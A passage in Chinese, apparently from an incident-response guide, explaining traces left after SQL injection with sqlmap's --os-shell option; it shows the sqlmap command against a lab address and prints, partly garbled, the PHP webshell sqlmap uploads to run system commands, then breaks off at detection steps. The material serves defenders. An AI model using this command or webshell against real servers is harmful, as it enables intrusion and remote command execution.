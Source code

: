 ### 0x03 SQL注入入侵痕迹

在利用SQL注入漏洞的过程中，我们会尝试利用sqlmap的--os-shell参数取得shell，如操作不慎，可能留下一些sqlmap创建的临时表和自定义函数。我们先来看一下sqlmap os-shell参数的用法以及原理：

1、构造一个SQL注入点，开启Burp监听8080端口

```
sqlmap.py -u http://192.168.204.164/sql.php?id=1 --os-shell --proxy=http://127.0.0.1:8080
```

HTTP通讯过程如下：

![img](安全服务/log-5-3.png)

创建了一个临时文件tmpbwyov.php，通过访问这个木马执行系统命令，并返回到页面展示。

tmpbwyov.php：

&1\n";function f($n){global $z;return is_callable($n)and!in_array($n,$z);}if(f('system')){ob_start();system($c);$w=ob_get_contents();ob_end_clean();}elseif(f('proc_open')){$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);$w=NULL;while(!feof($t[1])){$w.=fread($t[1],512);}@proc_close($y);}elseif(f('shell_exec')){$w=shell_exec($c);}elseif(f('passthru')){ob_start();passthru($c);$w=ob_get_contents();ob_end_clean();}elseif(f('popen')){$x=popen($c,r);$w=NULL;if(is_resource($x)){while(!feof($x)){$w.=fread($x,512);}}@pclose($x);}elseif(f('exec')){$w=array();exec($c,$w);$w=join(chr(10),$w).chr(10);}else{$w=0;}print "

```
".$w."
```

";?>

`

创建了一个临时表sqlmapoutput，调用存储过程执行系统命令将数据写入临时表，然后取临时表中的数据展示到前端。

通过查看网站目录中最近新建的可疑文件，可以判断是否发生过sql注入漏洞攻击事件。

检查方法：

1、检查网站目录下，是否存在一些木马文件：
